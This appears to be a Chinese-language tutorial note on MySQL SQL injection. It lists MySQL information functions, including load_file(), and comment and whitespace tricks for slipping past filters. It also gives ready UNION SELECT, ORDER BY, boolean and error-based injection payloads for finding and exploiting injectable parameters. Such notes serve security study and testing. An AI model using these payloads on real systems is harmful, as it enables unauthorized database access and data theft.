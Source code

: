 &nbsp;

## MySql数据库注入

### 【MySql数据库】

* **mysql数据库介绍**
  * linux上的免费数据库，一般搭配php使用一般会有两种集成框架：
  lamp （linux+apache+mysql+php）
  lnmp （linux+ngix+mysql+php）
  
* **mysql相关函数**
  * system_user()    系统用户名
  * current_user    当前用户名
  * database()    数据库名
  * version()     mysql数据库版本
  * load_file()     读取本地文件函数
  * @@datadir    读取数据库路径
  * @@basedir    mysql安装路径
  * @@version_compile_os    操作系统

* **mysql注释**
  * 注释符：#、--、/**/
  * 内联注释：/*！union*/和/*!50001union*/
  * 用+、%0a/%0D/和/*ADJFKLASDF--234U23SJFD AND 1=1*/代替空格
  * 用%或者/**/、%00、%01分割sql语句

### 【mysql数据库注入挖掘】

* **查看版本**
  * 显示出mysql的版本
  ```sql
  id=-1 union select 1,version(),2,3,4 
  ```
  
  * 查看当前用户
  ```sql
  id=-1 union select 1,user(),2,3,4
  ```
  >低于5.0版本的mysql中没有information_schema这个库，无法得到数据库信息

* **判断是否有注入**
  * id =1 order by 4 不断从1，2，3，4，5.....直到页面报错 ，得到表的列数
  * id=-1 union select 1,2,3,4.......n   通过-报错，显示出那一列时字符列

* **判断是否有bool注入**
  * 注入语句：1' and 1=1 # （显示正确）
  * 注入语句：1' and 1=2 # （显示错误，或者显示网站错误页面）

* **判断是否有显错注入**
  * 注入‘或/时，网页会出现错误（sql语句出现干扰），使用/    -0      ’     ')   '"    '%23    '--  等等测试
  * 显错注入使用的函数：
  ```sql
  floor(),  extractvalue(),  updatexml(),  geometrycollection(),  multipoint(),  polygon(),  multipolygon(),  linestring(),  multilinestring(),  exp()
  ```
  